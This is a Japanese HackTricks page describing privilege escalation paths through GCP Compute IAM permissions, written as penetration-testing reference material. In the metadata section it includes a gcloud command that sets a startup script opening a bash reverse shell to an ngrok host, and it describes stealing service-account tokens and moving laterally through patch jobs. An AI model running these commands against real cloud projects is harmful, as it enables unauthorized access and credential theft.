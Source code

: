 # GCP - Compute Privesc

<details>

<summary><strong>htARTE（HackTricks AWS Red Team Expert）</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>を通じてゼロからヒーローまでAWSハッキングを学ぶ</strong></a><strong>！</strong></summary>

HackTricksをサポートする他の方法：

* **HackTricksで企業を宣伝したい**または**HackTricksをPDFでダウンロードしたい**場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksスウォッグ**](https://peass.creator-spring.com)を入手する
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を発見し、独占的な[**NFTs**](https://opensea.io/collection/the-peass-family)のコレクションを見つける
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォロー**してください。
* **ハッキングトリックを共有するために** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **githubリポジトリにPRを提出**してください。

</details>

## Compute

ComputeとVPC（ネットワーク）に関する詳細情報は、以下をチェックしてください：

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
インスタンスのメタデータを変更する必要がある特権昇格攻撃をすべて実行するには、**インスタンスにアタッチされたSAに対する`actAs`権限が必要**です。SAが既にアタッチされていても必要です！
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

この権限を持つと、**インスタンス**の**メタデータ情報**を**変更**して**ユーザーの認証キーを変更**したり、**sudo権限を持つ新しいユーザーを作成**することができます。したがって、任意のVMインスタンスにSSH経由でアクセスして、インスタンスが実行されているGCPサービスアカウントを盗むことができます。\
制限事項：

* デフォルトでVMインスタンスで実行されているGCPサービスアカウントには**非常に限られたスコープ**があります
* **SSHサーバーに接続できる必要があります**

この権限を悪用する方法の詳細については、以下をチェックしてください：

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

新しい起動スクリプトを追加してインスタンスを再起動することで、この攻撃を実行することもできます。
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

この権限は、前の権限と同じ特権をプロジェクト全体ではなく特定のインスタンスに与えます。前のセクションと同じ脆弱性と制限が適用されます。

### `compute.instances.setIamPolicy`

この種の権限を持つと、前の権限を持つロールを自分自身に付与し、それを悪用して特権を昇格させることができます。

### **`compute.instances.osLogin`**

インスタンスでOSLoginが有効になっている場合、この権限を持つと単に **`gcloud compute ssh [INSTANCE]`** を実行してインスタンスに接続できます。インスタンス内での root 権限はありません。

{% hint style="success" %}
この権限を使用してVMインスタンス内でログインするには、VMにアタッチされたSAに対して `iam.serviceAccounts.actAs` 権限を持っている必要があります。
{% endhint %}

### **`compute.instances.osAdminLogin`**

インスタンスでOSLoginが有効になっている場合、この権限を持つと単に **`gcloud compute ssh [INSTANCE]`** を実行してインスタンスに接続できます。インスタンス内で root 権限を持ちます。

{% hint style="success" %}
この権限を使用してVMインスタンス内でログインするには、VMにアタッチされたSAに対して `iam.serviceAccounts.actAs` 権限を持っている必要があります。
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

割り当てられたサービスアカウントを持つ仮想マシンを作成し、そのサービスアカウントのトークンを盗むことで特権を昇格させることができます。

この方法の悪用スクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)で見つけることができます。

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`** または **`osconfig.patchJobs.exec`** 権限がある場合、[**パッチジョブまたはデプロイメント**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching) を作成できます。これにより、環境内を横断移動し、プロジェクト内のすべてのコンピュートインスタンスでコードを実行できます。

手動でこれを悪用するには、[パッチジョブ](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_job.json)または[デプロイメント](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch\_deployment.json)を作成する必要があります。パッチジョブを実行するには:

`gcloud compute os-config patch-jobs execute --file=patch.json`

パッチデプロイメントを展開するには:

`gcloud compute os-config patch-deployments create my-update --file=patch.json`

[patchy](https://github.com/rek7/patchy)などの自動化ツールを使用して、権限の緩さを検出し、自動的に横断移動することができます。

**これを永続化のためにも悪用できます。**

### `compute.machineImages.setIamPolicy`

コンピュートイメージに追加の権限を付与します。

### `compute.snapshots.setIamPolicy`

ディスクスナップショットに追加の権限を付与します。

### `compute.disks.setIamPolicy`

ディスクに追加の権限を付与します。

### アクセススコープのバイパス

このリンクに従うと、アクセススコープをバイパスしようとするいくつかの[**アイデア**](../)が見つかります。

### GCP Computeインスタンスでのローカル特権昇格

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)
